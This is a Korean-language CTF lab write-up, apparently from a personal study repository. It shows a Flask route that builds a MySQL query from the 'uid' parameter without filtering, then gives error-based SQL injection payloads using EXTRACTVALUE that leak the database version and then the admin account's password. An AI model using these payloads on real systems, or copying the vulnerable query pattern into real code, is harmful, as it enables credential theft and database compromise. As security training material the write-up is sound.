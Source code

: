 ```python
'''

# 인덱스 페이지
@app.route('/', methods=['POST', 'GET'])
def index():
    uid = request.args.get('uid') # 이용자가 전달한 uid 인자값을 가져옴
    if uid: # uid가 존재하는 경우
        try:
            cur = mysql.connection.cursor()
            cur.execute(f"SELECT * FROM user WHERE uid='{uid}';") # uid를 이용해 users 테이블을 조회하는 쿼리를 반환함
            return template.format(uid=uid) # template 변수의 내용을 화면에 출력함 (uid를 인자로 제공)
        except Exception as e: # 쿼리 실패 시
            return str(e) # 에러를 출력함
    else: # uid가 존재하지 않는 경우
        return template # template 변수의 내용을 화면에 출력함


if __name__ == '__main__':
    app.run(host='0.0.0.0')
```

<br/><br/>

## 문제 풀이
### 취약점이 존재하는 부분
index 함수에서 이용자가 전달한 uid가 별도의 필터링 없이 바로 mysql 쿼리로 사용되기 때문에 SQL Injection이 발생함
* Error based SQL Injection 테스트
    - 코드를 보면 입력값을 ```'``` 문자로 감싸고 있으므로 ```'``` 문자를 넣어 SQL Injection 공격을 수행해야 함
    - ```EXTRACTVALUE``` 함수를 사용하여 올바르지 않은 XPATH 식으로 운영 체제에 대한 정보가 포함된 에러 메시지를 출력시킴
        + 이용자의 입력값(uid 인자값): ```1' AND EXTRACTVALUE(1, CONCAT(0x3a, version()));--```
        + 생성되는 쿼리
            ```sql
            SELECT * FROM user WHERE uid='1' AND EXTRACTVALUE(1, CONCAT(0x3a, version()));--'
            ```
        + 쿼리 실행 결과: 운영체제의 정보를 획득할 수 있음 (해당 서버가 MariaDB를 사용하고 있음을 알 수 있음)
            <img width="1029" alt="test1" src="https://github.com/augustf86/Today_I_Learn/assets/122844932/cb824b00-24ac-4b72-8c12-c138ec1ae723">
            <img width="1029" alt="test2" src="https://github.com/augustf86/Today_I_Learn/assets/122844932/734f5080-9f77-4323-83da-0686701a7d42">

<br/><br/>

### 익스플로잇
1. 비밀번호를 추출하기 위해서 실행해야 하는 SQL 쿼리문(```SELECT upw FROM user WHERE uid='admin'```)을 EXTRACTVALUE의 XPATH 식 부분에 삽입하여 실행시킴
    - 쿼리 실행을 위해 입력해야 하는 uid 인자값: ```1' AND EXTRACTVALUE(1, CONCAT(0x3a, (SELECT upw FROM user WHERE uid='admin')));--```
    - 쿼리 실행 결과 XPATH 식에 삽입된 서브 쿼리가 실행되면서 에러 메시지에 user 테이블의 admin 계정의 upw가 포함되어 있음 (플래그 획득 가능)
        <img width="1029" alt="exploit1" src="https://github.com/augustf86/Today_I_Learn/assets/122844932/1b9f6fae-5cc6-4883-848f-0c8230c5bf5e">
